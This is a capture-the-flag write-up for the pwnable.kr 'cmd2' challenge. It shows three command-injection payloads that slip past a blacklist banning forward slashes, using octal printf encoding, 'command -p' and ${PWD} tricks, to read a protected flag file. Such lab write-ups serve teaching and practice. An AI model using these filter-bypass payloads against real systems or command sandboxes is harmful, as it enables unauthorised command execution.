 # 15 - cmd2

## The Challenge

Daddy bought me a system command shell. but he put some filters to prevent me from playing with it without his permission... but I wanna play anytime I want!

ssh cmd2@pwnable.kr -p2222 \(pw:flag of cmd1\)

## The Solution

Another blacklisting challenge, this time on steroids. The greatest hurdle is the prohibition on using forward slash.

![](../.gitbook/assets/image%20%2844%29.png)

### Solution \#1 - Octal Encoding

`dash` supports octal encoding \[not hex\]. It's important to surround the argument with single quotes so`printf`won't execute before being passed as an argument.

```text
./cmd2 '$(printf "\57bin\57cat fla*")'
```

### Solution \#2 - Builtin Secrets

Bash has a builtin named `command`. It can be used with the flag `-p` to revert to the default function lookup.

```text
./cmd2 'command -p cat fla*'
```

### Solution \#3 - ${PWD}

If you navigate to the root directory $PWD will equal to, well, forward slash.

```text
./cmd2 'cd ..;cd ..; ${PWD}bin${PWD}cat ${PWD}home${PWD}cmd2${PWD}fla*'
```

